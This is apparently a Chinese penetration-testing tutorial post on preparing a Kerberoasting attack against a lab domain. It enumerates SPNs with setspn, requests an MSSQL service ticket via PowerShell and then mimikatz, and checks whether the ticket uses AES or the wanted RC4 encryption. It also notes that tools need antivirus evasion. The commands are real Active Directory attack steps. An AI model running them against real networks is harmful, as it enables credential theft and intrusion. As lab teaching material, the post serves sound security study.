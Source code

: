 判断加密类型可以通过手工和工具的方法，工具需要考虑免杀等  
  
  
手工：  
  
  
先用spn去获取有哪些通讯的服务  
  
  
再去连接通讯这个服务 产生票据  
  
  
查看票据的加密通讯类型  
  
  
**手工判断加密类型**  
  
  
扫描当前域内服务  
  
```
powershell setspn -T god.org -q */*
powershell setspn -T god.org -q */* |findstr "MSSQL"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7nefX1OOD3U21mXZmypAeuFCTfyQpLoIPy4whGkV65Hx6ucZmL4r6mA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7VVdGo23QbFvSOIVFF7Bn1DoV0yjJhsOW0o7QZWSMXwE995uXovfC8w/640?wx_fmt=png&from=appmsg "")  
  
```
#这行代码加载 System.IdentityModel 程序集，使 PowerShell 能够使用该程序集中的类，例如System.IdentityModel.Tokens.KerberosRequestorSecurityToken。
powershell Add-Type -AssemblyName System.IdentityModel

#请求 Kerberos 认证，获取一个用于访问 MSSQLSvc/SqlServer.god.org:1433 的 Kerberos 票据。
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SqlServer.god.org:1433"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7GqGwQmJIAqEp2KOicOzs6hibmJf1MfRRv3KPLq8UA5YCjbrkPOgbaF4g/640?wx_fmt=png&from=appmsg "")  
  
  
klist发现啥也没有，这个不行。。  
  
  
那么用mimikatz试试  
  
```
#该命令的作用是 请求 SQL Server（MSSQLSvc）的 Kerberos 票据
mimikatz kerberos::ask /target:MSSQLSvc/SqlServer.god.org:1433
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7gichic7gj8nd6RUxc7NhBL6o98H6JusL0zCQvwuZcMsFvAd0Ie9tOfgQ/640?wx_fmt=png&from=appmsg "")  
  
  
klist发现多出了票据！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7RW8DzqBXgWJb2IksjtuJadia27QuXYXgViahabkOW5N4bAicU7rryyC8A/640?wx_fmt=png&from=appmsg "")  
  
  
看会话密钥类型，说明这个票据采用的是AES-256-CTS-HMAC-SHA1-96加密。这种情况我们就玩不了，我们需要RC4！  
  